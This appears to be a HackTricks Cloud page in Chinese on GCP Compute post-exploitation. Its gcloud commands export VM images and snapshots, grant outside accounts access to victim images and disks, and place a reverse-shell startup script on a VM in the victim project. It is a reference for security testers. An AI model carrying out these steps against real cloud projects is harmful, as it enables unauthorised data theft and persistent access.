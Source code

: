 # GCP - Compute Post Exploitation

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs收藏品](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 计算

有关计算和VPC（网络）的更多信息，请查看：

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### 导出和本地检查镜像

这将允许攻击者**访问已存在镜像中包含的数据**或**创建正在运行的VM的新镜像**并访问其数据，而无需访问正在运行的VM。

可以将VM镜像导出到存储桶，然后使用以下命令下载并在本地挂载：

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

在执行此操作之前，攻击者可能需要对存储桶拥有权限，当然还需要对**cloudbuild拥有权限**，因为它是将被要求执行导出的**服务**\
此外，为了使此操作生效，codebuild SA和compute SA需要特权权限。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` 需要:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

而SA `<project-id>-compute@developer.gserviceaccount.com` 需要:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### 导出和本地检查快照和磁盘

无法直接导出快照和磁盘，但可以**将快照转换为磁盘，磁盘转换为映像**，然后根据**上一节**的步骤，导出该映像以在本地检查

```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```

### 检查创建虚拟机的镜像

为了访问存储在镜像中的数据或者在攻击者创建镜像的**运行中的虚拟机**内的数据，可以授予外部帐户对该镜像的访问权限：

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```

然后从中创建一个新的虚拟机：

```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

如果您无法将外部帐户访问权限授予镜像，您可以在受害者项目中使用该镜像启动虚拟机，并使元数据执行反向 shell 以访问该镜像，添加参数：

```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```

### 检查快照/磁盘并将其附加到VM

为了访问**存储在磁盘或快照中的数据，您可以将快照转换为磁盘，磁盘转换为映像，然后按照先前的步骤操作。**

或者您可以**授予外部帐户对磁盘的访问权限**（如果起点是快照，则授予对快照的访问权限或从快照创建磁盘）：

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```

**将磁盘**附加到实例：

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```

挂载磁盘到虚拟机内部：

1. **SSH登录虚拟机**：

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2. **识别磁盘**：进入虚拟机后，通过列出磁盘设备来识别新磁盘。通常可以在 `/dev/sdb`、`/dev/sdc` 等路径下找到它。
3. **格式化并挂载磁盘**（如果是新的或原始磁盘）：

* 创建挂载点：

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

* 挂载磁盘：

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

如果**无法将快照或磁盘授予外部项目访问权限**，可能需要在与快照/磁盘相同项目中的实例内执行这些操作。
